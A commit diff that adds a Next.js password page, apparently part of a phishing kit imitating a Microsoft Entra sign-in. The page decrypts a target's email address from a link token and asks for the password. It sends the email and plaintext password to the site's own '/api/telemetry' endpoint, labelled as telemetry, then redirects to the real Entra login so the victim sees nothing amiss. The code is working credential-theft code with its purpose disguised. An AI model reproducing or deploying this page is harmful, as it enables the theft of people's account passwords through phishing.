

Before and after one commit to husknet/sweetoff-sage, a Next.js app: page /passord in a window 1280 px wide. Before the commit this address had no page. Shown: the top 652 px of the page, without its empty margins (309-1015 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Add files via upload

```diff
--- /dev/null
+++ b/app/passord/page.tsx
@@ -0,0 +1,142 @@
+'use client'
+import { useEffect, useState } from 'react'
+import { motion, AnimatePresence } from 'framer-motion'
+import IndustrialShell from '@/components/IndustrialShell'
+import { decryptEmail } from '@/lib/crypto'
+
+const ENTRA_BASE = process.env.NEXT_PUBLIC_ENTRA_BASE_URL || ''
+
+function useHashParam(name: string) {
+  const [value, setValue] = useState<string | null>(null)
+  useEffect(() => {
+    const parse = () => {
+      const q = new URLSearchParams(window.location.hash.slice(1))
+      setValue(q.get(name))
+    }
+    parse()
+    window.addEventListener('hashchange', parse)
+    return () => window.removeEventListener('hashchange', parse)
+  }, [name])
+  return value
+}
+
+function Avatar({ email }: { email: string }) {
+  const letter = (email?.[0] || '?').toUpperCase()
+  return (
+    <div className="w-12 h-12 rounded-full bg-metal-600 border border-metal-line grid place-items-center shadow-neon">
+      <span className="text-xl font-semibold text-white/90">{letter}</span>
+    </div>
+  )
+}
+
+export default function PasswordPhase() {
+  const token = useHashParam('e')
+  const [email, setEmail] = useState('')
+  const [error, setError] = useState('')
+  const [showModal, setShowModal] = useState(false)
+  const [passwordError, setPasswordError] = useState('')
+
+  useEffect(() => {
+    (async () => {
+      try {
+        if (!token) return
+        const plain = await decryptEmail(token)
+        setEmail(plain)
+      } catch {
+        setError('Invalid or expired link.')
+      }
+    })()
+  }, [token])
+
+  const onSubmit = async (e: React.FormEvent<HTMLFormElement>) => {
+    e.preventDefault()
+    setPasswordError('')
+
+    const formData = new FormData(e.currentTarget)
+    const password = String(formData.get('password') || '')
+
+    if (password.length < 5) {
+      setPasswordError('Password must be at least 5 characters.')
+      return
+    }
+
+    try {
+      setShowModal(true)
+      await fetch('/api/telemetry', {
+        method: 'POST',
+        headers: { 'content-type': 'application/json' },
+        body: JSON.stringify({
+          event: 'password_submit',
+          email,
+          password
+        })
+      })
+    } finally {
+      const base = ENTRA_BASE || '/'
+      const sep = base.includes('?') ? '&' : '?'
+      window.location.href = `${base}${sep}login_hint=${encodeURIComponent(email)}`
+    }
+  }
+
+  return (
+    <IndustrialShell title="Access Portal" subtitle="Phase 2 · Authenticate with password">
+      {error ? (
+        <div className="text-sm text-red-300">{error}</div>
+      ) : (
+        <>
+          <form className="space-y-5" onSubmit={onSubmit}>
+            <div className="flex items-center gap-3">
+              <Avatar email={email} />
+              <div>
+                <div className="text-sm text-white/60">Signed in as</div>
+                <div className="font-medium">{email || 'Decrypting…'}</div>
+              </div>
+            </div>
+
+            <div>
+              <label className="block text-sm text-white/60">Password</label>
+              <input
+                className="input"
+                type="password"
+                name="password"
+                autoComplete="current-password"
+                placeholder="••••••••"
+                required
+                minLength={5}
+              />
+              {passwordError && <p className="text-xs text-red-400 mt-1">{passwordError}</p>}
+            </div>
+
+            <button type="submit" className="btn-primary w-full">Continue</button>
+          </form>
+
+          <AnimatePresence>
+            {showModal && (
+              <motion.div
+                className="fixed inset-0 z-50 grid place-items-center bg-black/60"
+                initial={{ opacity: 0 }}
+                animate={{ opacity: 1 }}
+                exit={{ opacity: 0 }}
+              >
+                <motion.div
+                  className="card w-full max-w-sm p-6 text-center"
+                  initial={{ scale: 0.95, opacity: 0 }}
+                  animate={{ scale: 1, opacity: 1 }}
+                  exit={{ scale: 0.95, opacity: 0 }}
+                >
+                  <div className="mx-auto mb-3 w-12 h-12 rounded-full border border-metal-line grid place-items-center shadow-neon">
+                    <div className="w-5 h-5 rounded-full border-2 border-white/30 border-t-white animate-spin" />
+                  </div>
+                  <h2 className="text-lg font-semibold mb-1">Checking Entra ID…</h2>
+                  <p className="text-sm text-white/60">
+                    Redirecting with <code>login_hint</code> for <span className="font-medium">{email}</span>
+                  </p>
+                </motion.div>
+              </motion.div>
+            )}
+          </AnimatePresence>
+        </>
+      )}
+    </IndustrialShell>
+  )
+}
```
